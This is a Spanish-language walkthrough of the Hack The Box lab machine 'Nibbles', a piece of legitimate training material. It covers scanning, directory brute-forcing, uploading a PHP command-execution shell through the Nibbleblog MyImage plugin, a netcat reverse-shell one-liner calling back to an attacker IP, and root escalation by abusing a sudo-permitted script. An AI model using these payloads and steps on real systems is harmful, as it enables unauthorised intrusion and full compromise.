 ```yaml
---
description: '✍️ Autor: Hack The Box🔍 Dificultad: Fácil  📅 Fecha de creación: 13/01/2018'
---
```


# Nibbles

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.129.12.162
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.12.162 
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.129.12.162
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos salga un mensaje.\
![](<../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Revisamos el código por si hay alguna información relevante.\


<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos muestra un directorio por lo que indagaremos ahí.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://10.129.12.162/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hay dos archivos interesantes como `admin.php` y `README`.

```bash
curl http://10.129.12.162/nibbleblog/README
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hemos confirmado que la versión **4.0.3** está en uso, lo que sugiere que es probable que sea vulnerable al módulo de **Metasploit** (aunque podría tratarse de una página antigua del README). No observamos nada más relevante. Ahora, revisemos la página de inicio de sesión del portal de administración.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-07 095935.png" alt=""><figcaption></figcaption></figure>

Para usar el **exploit** mencionado, necesitaremos credenciales de administrador válidas. Probamos técnicas de omisión de autenticación y combinaciones comunes como **admin** y **admin**, sin éxito. Hay una opción para restablecer la contraseña, pero da un error de correo. Además, demasiados intentos rápidos activan un bloqueo con el mensaje **"Nibbleblog security error - Blacklist protection"**.

Volvamos a nuestros resultados de fuerza bruta en el directorio. Los códigos **200** muestran páginas accesibles, los **403** indican acceso prohibido y el **301** es una redirección permanente. Navegamos a **nibbleblog/themes/** y vemos que el listado de directorios está habilitado.

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al navegar a **nibbleblog/content**, encontramos subdirectorios interesantes: public, private y tmp. Explorando un poco, encontramos un archivo **users.xml** que confirma que el nombre de usuario es **admin**. También muestra direcciones IP en la lista negra. Podemos solicitar este archivo con **cURL** y formatear la salida **XML** usando **xmllint**.

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Confirmamos que **admin** es el usuario.

No hay otros puertos abiertos y no encontramos más directorios. Podemos confirmarlo realizando fuerza bruta adicional en directorios contra la raíz de la aplicación web.

```bash
gobuster dir -u http://10.129.12.162/ --wordlist /usr/share/dirb/wordlists/common.txt
```

<figure><img src="../../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al revisar nuevamente todos los directorios expuestos, encontramos un archivo **config.xml**.

```bash
curl -s http://10.129.12.162/nibbleblog/content/private/config.xml | xmllint --format -
```

<figure><img src="../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al revisar el archivo, esperamos encontrar contraseñas, pero no obtenemos resultados. Sin embargo, vemos dos menciones de "**nibbles**" en el título del sitio y en la dirección de correo de notificación. Este también es el nombre de la máquina.&#x20;

Al realizar cracking de contraseñas offline con una herramienta como **Hashcat** o al intentar adivinar una contraseña, es importante considerar toda la información disponible. No es raro descifrar una contraseña (como la de la red inalámbrica de una empresa) usando una lista de palabras generada al rastrear su sitio web con una herramienta como **CeWL**.

```bash
cewl http://10.129.12.162/nibbleblog -w wordlist.txt
```

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Intentemos usar el plugin **MyImage** para cargar un fragmento de código **PHP** en lugar de una imagen. El siguiente fragmento se puede usar para probar la ejecución de código.

```bash
<?php system('id'); ?>
```

Ahora tenemos que averiguar dónde se subió el archivo si la carga fue exitosa. Volviendo a los resultados de fuerza bruta en los directorios, recordamos el directorio `/content`. Dentro de este, hay un directorio `plugins` y otro subdirectorio llamado `my_image`. La ruta completa es `http://<host>/nibbleblog/content/private/plugins/my_image/`. En este directorio, vemos dos archivos, `db.xml` e `image.php`, con una fecha de última modificación reciente, ¡lo que significa que nuestra carga fue exitosa! Ahora vamos a verificar si tenemos ejecución de comandos.

```bash
curl http://10.129.12.162/nibbleblog/content/private/plugins/my_image/image.php
```

<figure><img src="../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

Parece que hemos obtenido ejecución remota de código en el servidor web, y el servidor Apache se está ejecutando en el contexto del usuario `nibbler`. Vamos a modificar nuestro archivo PHP para obtener una shell inversa y comenzar a explorar el servidor.

Vamos a editar nuestro archivo PHP local y subirlo nuevamente. Este comando debería proporcionarnos una shell inversa. Como se mencionó anteriormente en el Módulo, existen muchas hojas de trucos para shells inversas. Algunas muy buenas son [PayloadAllTheThings ](https://github.com/swisskyrepo/PayloadsAllTheThings)entre otras.

Utilicemos el siguiente one-liner de Bash para la shell inversa y añádelo a nuestro script PHP.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.47 443 >/tmp/f"); ?>
```

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

Pinchamos en el fichero image.php.

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos Python3, lo cual nos permite obtener una shell más amigable escribiendo `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Al navegar a `/home/nibbler`, encontramos la bandera `user.txt` así como un archivo zip llamado `personal.zip`.

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Si accedemos a esa ruta, veremos que no existe. Por lo tanto, necesitaremos crear el directorio y el archivo:

```bash
cd /home/nibbler
mkdir -p personal/stuff
cd personal/stuff
echo "/bin/bash" > monitor.sh
chmod +x monitor.sh
sudo ./monitor.sh
```

Con estos pasos, obtendremos acceso root. Luego, al ir a `/root/root.txt`, podremos ver la bandera ROOT.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>
